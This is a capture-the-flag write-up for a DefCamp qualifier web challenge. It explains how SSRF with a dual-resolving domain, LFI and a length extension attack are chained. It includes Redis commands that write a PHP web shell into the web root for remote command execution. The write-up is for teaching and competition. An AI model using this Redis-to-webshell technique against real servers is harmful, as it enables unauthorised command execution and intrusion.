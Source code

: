 It's obvious that we have three vulnerabilities:

1. SSRF in `https://secure-httpbin.dctf-quals-17.def.camp/`, but intranet ip and  loopback ip is banned.

1. LFI in `https://sandbox.secure-httpbin.dctf-quals-17.def.camp/?nolog`.

1. Length extension attack to fake the signature.

We could bind a domain to both `127.0.0.1` and a public ip. So that we can bypass the check in SSRF and send requests to localhost.

As the vhosts on the server is recognized by domain, we could not use the domain to visit `flag.php`.
So we try other ports and found that redis is open.

As we can send post requests, it's very easy to write file with redis.
With the error info in LFI, we can know the path for php source code.

![](./lfi.png)

So, POST data could be:

```
SET x "<?php system($_GET['cmd']); ?>"
CONFIG SET dir /var/www/sandbox
CONFIG SET dbfilename evil.php
SAVE
```

After sent the POST request, we can visit `https://sandbox.secure-httpbin.dctf-quals-17.def.camp/evil.php?cmd=ls` to get command execution.

*PS: In order to prevent backdoor leakage to other players, the organizers will empty the backdoor periodically.*
